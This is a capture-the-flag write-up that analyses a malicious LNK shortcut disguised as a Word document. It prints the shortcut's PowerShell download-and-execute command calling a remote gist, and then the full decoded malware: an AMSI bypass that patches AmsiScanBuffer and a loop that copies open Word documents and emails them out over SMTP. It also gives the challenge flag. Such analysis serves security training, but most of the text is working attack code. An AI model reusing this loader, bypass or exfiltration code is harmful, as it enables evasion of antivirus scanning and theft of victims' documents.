 # LNK

> **Challenge Description:** Recently, many of our company's sensitive documents were stolen by someone. Can you look into this malware? It might be the initial access of the malware of the attacker. We believe the attacker have hidden passwords for their malware.
>
> **Flag Format:** `ihack{MD5}`

### Solution
The `LNK` file appears to be a `.DOCX` that masquerades as a shortcut file. When performing basic file checks to carve for metadata, the following payload was discovered:

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/malware]
└─$ exiftool Latest\ Kenyataan\ Parlimen.docx 
ExifTool Version Number         : 12.40
File Name                       : Latest Kenyataan Parlimen.docx
Directory                       : .
File Size                       : 2.5 KiB
File Modification Date/Time     : 2022:12:08 08:00:32-05:00
File Access Date/Time           : 2022:12:10 03:12:33-05:00
File Inode Change Date/Time     : 2022:12:10 06:45:16-05:00
File Permissions                : -rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, IconFile, Unicode
File Attributes                 : (none)
Create Date                     : 1601:01:16 04:55:36-04:56
Access Date                     : 1601:01:16 04:55:36-04:56
Modify Date                     : 1601:01:16 04:55:36-04:56
Target File Size                : 0
Icon Index                      : (none)
Run Window                      : Show Minimized No Activate
Hot Key                         : (none)
Target File DOS Name            : cmd.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\cmd.exe
Relative Path                   : ..\..\..\..\..\Windows\System32\cmd.exe
Working Directory               : C:\Windows\System32
Command Line Arguments          : /c powershell "IEX(New-Object Net.WebClient).downloadString('https://gist.githubusercontent.com/0xAFFMR/8f7f4579de75cf111a6c0f53ceff4f1f/raw/66986a5c79ca1dbe3629311e6400751c2fba89ba/ihack.ps1')"
Icon File Name                  : C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

Navigating to the URL `https[://]gist[.]githubusercontent[.]com/0xAFFMR/8f7f4579de75cf111a6c0f53ceff4f1f/raw/66986a5c79ca1dbe3629311e6400751c2fba89ba/ihack[.]ps1`, it appears to be base-64 encoded.

![Screenshot](./Screenshot.png)

Decode the base64 repeatedly with UTF-16LE until the following payload appears:

```csharp
Add-Type -AssemblyName System.Security

##### GLOBAL #####
$Content = (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/0xAFFMR/da298d823c184ae6c12c940562049978/raw/38deebff622eed7616d27009c690c4d86668f3a1/sec')
[string[]]$Bytes = $Content.Split("`n")
$ContentX = [Security.Cryptography.ProtectedData]::Protect($Bytes, $Null, [Security.Cryptography.DataProtectionScope]::LocalMachine)
$docsSent =  New-Object Collections.Generic.List[String]
$appData = [Environment]::GetFolderPath('ApplicationData') + "\Microsoft\Windows\Recent"
$temp = [Environment]::GetFolderPath('ApplicationData')
$compName = $env:computername | Select-Object
##################

# AMSI ByPass
function AmsiBypass {
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si." + "dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Am" + "si" + "Scan" + "Buf" + "fer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
}


# Send Email function
function Send-Email {
    $From = "hackerman@ihack.com"
    $To = "hackerman@ihack.com"
    $Attachment = $args[0]
    $Subject = "Email Subject"
    $Body = "UserDomain: " + $env:UserDomain + " ComputerName: " + $env:ComputerName + " UserName: " + $env:UserName + " Attachment: " + [io.path]::GetFileName($args[0])
    $SMTPServer = "smtp.gmail.com"
    $SMTPPort = "587"
    $User = "UserName"
    $SecRet = ConvertTo-SecureString -String $ContentX -AsPlainText -Force
    $Credential = New-Object -TypeName "System.Management.Automation.PSCredential" -ArgumentList $User, $SecRet
    Send-MailMessage -From $From -to $To -Subject $Subject `
    -Body $Body -SmtpServer $SMTPServer -port $SMTPPort -UseSsl `
    -Credential $Credential -Attachments $Attachment
}


# Check if file locked
function Test-FileLock {
  param (
    [parameter(Mandatory=$true)][string]$Path
  )

  $oFile = New-Object System.IO.FileInfo $Path

  if ((Test-Path -Path $Path) -eq $false) {
    return $false
  }

  try {
    $oStream = $oFile.Open([System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::None)

    if ($oStream) {
      $oStream.Close()
    }
    return $false
  } catch {
    # file is locked by a process.
    return $true
  }
}


# Check lnk file origin
function Get-ShortcutsTarget{
    $Shortcuts = Get-ChildItem -Recurse $appData -Include *.doc*.lnk
    $Shell = New-Object -ComObject WScript.Shell
    foreach ($Shortcut in $Shortcuts)
    {
        $Properties = @{
        ShortcutName = $Shortcut.Name;
        ShortcutFull = $Shortcut.FullName;
        ShortcutPath = $shortcut.DirectoryName
        Target = $Shell.CreateShortcut($Shortcut).targetpath
        }
        New-Object PSObject -Property $Properties
    }

[Runtime.InteropServices.Marshal]::ReleaseComObject($Shell) | Out-Null
}


AmsiBypass
# Function as Main
Do {
    
    # Check If WinWord process is open
    $isOpen = get-process WINWORD -ErrorAction SilentlyContinue | select -expand id

    # while WinWord is open 
    while($isOpen) 
    {
        $Output = Get-ShortcutsTarget
        foreach ($Target in $Output)
        {
            $isLocked = Test-FileLock $Target.Target
            if ($isLocked -AND -NOT $docsSent.Contains($Target.Target))
            {
                $destination = $temp + "\" + [io.path]::GetFileName($Target.Target)
                copy-Item -Recurse $Target.Target -passthru -Destination $destination
                Send-Email $destination
                $docsSent.Add($Target.Target)
                Remove-Item -Path $destination -Force
            }
        }

        sleep 5
        $isOpenTemp = get-process WINWORD -ErrorAction SilentlyContinue | select -expand id
        if ($isOpenTemp -ne $isOpen)
        {
            $docsSent.Clear()
            $isOpen = $isOpenTemp
        }

    }

    $docsSent.Clear()
    sleep 5
} while ($true)
```

The flag is located in the URL `https[://]gist[.]githubusercontent[.]com/0xAFFMR/da298d823c184ae6c12c940562049978/raw/38deebff622eed7616d27009c690c4d86668f3a1/sec`
Convert the decimal values to ASCII characters to obtain the flag.

**Flag:** `ihack{287991bc0a634b67a92c2c5881d2abff}`
